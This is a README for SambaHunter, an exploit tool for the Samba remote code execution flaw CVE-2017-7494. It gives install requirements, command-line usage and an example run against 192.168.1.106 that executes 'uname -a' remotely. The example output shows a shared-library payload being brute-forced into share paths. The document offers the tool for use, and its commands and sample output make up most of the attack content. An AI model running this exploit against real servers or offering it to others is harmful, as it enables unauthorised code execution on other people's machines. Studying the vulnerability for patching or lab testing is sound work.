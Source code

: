# SambaHunter
It is a simple script to exploit RCE for Samba (CVE-2017-7494).

Now works with Python3. Many of the required Python2 libraries are deprecated (e.g. `commands`)

Added logging to show which shares are writeable. If 'Exploit Finished' appears but no shares are writeable, the exploit didn't work.

# Requirements
* sudo apt-get install smbclient
* pip install pysmbclient

# Usage
```
# python3 sambahunter.py -h


  ____                  _           _   _             _            
 / ___|  __ _ _ __ ___ | |__   __ _| | | |_   _ _ __ | |_ ___ _ __ 
 \___ \ / _` | '_ ` _ \| '_ \ / _` | |_| | | | | '_ \| __/ _ \ '__|
  ___) | (_| | | | | | | |_) | (_| |  _  | |_| | | | | ||  __/ |   
 |____/ \__,_|_| |_| |_|_.__/ \__,_|_| |_|\__,_|_| |_|\__\___|_|   
                                                                   
    # Exploit Author: avfisher (https://github.com/brianwrf)
    # Samba 3.5.0 - 4.5.4/4.5.10/4.4.14 Remote Code Execution
    # CVE-2017-7494
    # Help: python sambahunter.py -h

usage: sambahunter.py [-h] [-s SERVER] [-c COMMAND]

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Server to target
  -c COMMAND, --command COMMAND
                        Command to execute on target server
 ```
 
 # Example
 ```
 # python3 sambahunter.py -s 192.168.1.106 -c 'uname -a > /tmp/u.txt'


  ____                  _           _   _             _            
 / ___|  __ _ _ __ ___ | |__   __ _| | | |_   _ _ __ | |_ ___ _ __ 
 \___ \ / _` | '_ ` _ \| '_ \ / _` | |_| | | | | '_ \| __/ _ \ '__|
  ___) | (_| | | | | | | |_) | (_| |  _  | |_| | | | | ||  __/ |   
 |____/ \__,_|_| |_| |_|_.__/ \__,_|_| |_|\__,_|_| |_|\__\___|_|   
                                                                   
    # Exploit Author: avfisher (https://github.com/brianwrf)
    # Samba 3.5.0 - 4.5.4/4.5.10/4.4.14 Remote Code Execution
    # CVE-2017-7494
    # Help: python sambahunter.py -h

[*] Exploiting RCE for Samba (CVE-2017-7494 )...
[*] Server: 192.168.1.106
[*] Samba version: Samba 4.3.8-Ubuntu
[*] Generate payload succeed: /root/samba_14506.so
[+] Brute force exploit: /volume1/samba_14506.so
[+] Brute force exploit: /volume2/samba_14506.so
[+] Brute force exploit: /volume3/samba_14506.so
[+] Brute force exploit: /shared/samba_14506.so
[+] Brute force exploit: /mnt/samba_14506.so
[+] Brute force exploit: /mnt/usb/samba_14506.so
[+] Brute force exploit: /media/samba_14506.so
[+] Brute force exploit: /mnt/media/samba_14506.so
[+] Brute force exploit: /var/samba/samba_14506.so
[+] Brute force exploit: /tmp/samba_14506.so
[+] Brute force exploit: /home/samba_14506.so
[+] Brute force exploit: /home/shared/samba_14506.so
[*] Exploit finished!
 ```
![](https://raw.githubusercontent.com/brianwrf/SambaHunter/master/example.jpeg)
